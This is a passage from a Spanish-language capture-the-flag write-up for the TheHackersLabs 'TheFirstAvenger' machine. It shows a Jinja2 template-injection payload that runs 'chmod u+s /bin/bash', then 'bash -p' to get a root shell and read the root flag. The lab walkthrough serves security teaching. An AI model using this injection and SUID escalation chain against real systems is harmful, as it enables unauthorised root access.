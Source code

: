 Entonces, podemos darle **permisos SUID** a la **Bash** para convertirnos en **Root**.

Observa los permisos de la **Bash**:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Cambiamos el comando **id** por el siguiente:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod u+s /bin/bash').read() }}
```
{% endraw %}

<p align="center">
<img src="/assets/images/THL-writeup-theFirstAvenger/Captura22.png">
</p>

Volvemos a ver los permisos de la **Bash**:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Ya tiene **permisos SUID**.

Podemos convertirnos en **Root**:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ bash -p
bash-5.2# whoami
root
```

Ya solo obtenemos la flag del **Root**:
```bash
bash-5.2# cd /root
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
